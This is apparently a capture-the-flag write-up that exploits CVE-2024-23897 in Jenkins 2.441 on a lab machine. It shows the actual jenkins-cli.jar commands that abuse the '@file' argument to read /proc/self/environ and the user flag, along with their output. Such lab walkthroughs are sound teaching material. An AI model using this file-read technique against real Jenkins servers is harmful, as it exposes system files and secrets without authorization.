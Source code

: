 Searching online for potential vulnerabilities related to Jenkins version 2.441 we find [CVE-2024-23897](https://www.cvedetails.com/cve/CVE-2024-23897/). Jenkins also announce the vulnerability at [https://www.jenkins.io/security/advisory/2024-01-24/](https://www.jenkins.io/security/advisory/2024-01-24/). It is file read vulnerability through the CLI that can lead to Remote Code Execution (RCE).

## Foothold

To start with we download the Jenkins CLI client from server side. Procedure to download is documented at [https://www.jenkins.io/doc/book/managing/cli/#downloading-the-client](https://www.jenkins.io/doc/book/managing/cli/#downloading-the-client).

```shell
labadmin@labmachine:~/builder$ wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
--2024-04-15 23:44:52--  http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
Connecting to 10.10.11.10:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3623400 (3.5M) [application/java-archive]
Saving to: ‘jenkins-cli.jar’

jenkins-cli.jar               100%[=================================================>]   3.46M   246KB/s    in 14s

2024-04-15 23:45:06 (256 KB/s) - ‘jenkins-cli.jar’ saved [3623400/3623400]
```

To test the Jenkins CLI client we successfully query the Jenkins version.

```shell
labadmin@labmachine:~/builder$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' version
2.441
```

As next step we test file read and get more information of the host reading `/proc/self/environ`

```shell
labadmin@labmachine:~/builder$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' version @/proc/self/environ

ERROR: No argument is allowed: HOSTNAME=0f52c222a4ccJENKINS_UC_EXPERIMENTAL=https://updates.jenkins.io/experimentalJAVA_HOME=/opt/java/openjdkJENKINS_INCREMENTALS_REPO_MIRROR=https://repo.jenkins-ci.org/incrementalsCOPY_REFERENCE_FILE_LOG=/var/jenkins_home/copy_reference_file.logPWD=/JENKINS_SLAVE_AGENT_PORT=50000JENKINS_VERSION=2.441HOME=/var/jenkins_homeLANG=C.UTF-8JENKINS_UC=https://updates.jenkins.ioSHLVL=0JENKINS_HOME=/var/jenkins_homeREF=/usr/share/jenkins/refPATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
java -jar jenkins-cli.jar version
Outputs the current version.
```

We find out the home directory is `JENKINS_HOME=/var/jenkins_home` and we can get the user.txt.

```shell
labadmin@labmachine:~/builder$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' version @/var/jenkins_home/user.txt

ERROR: No argument is allowed: [OMITTED]
java -jar jenkins-cli.jar version
Outputs the current version.
```

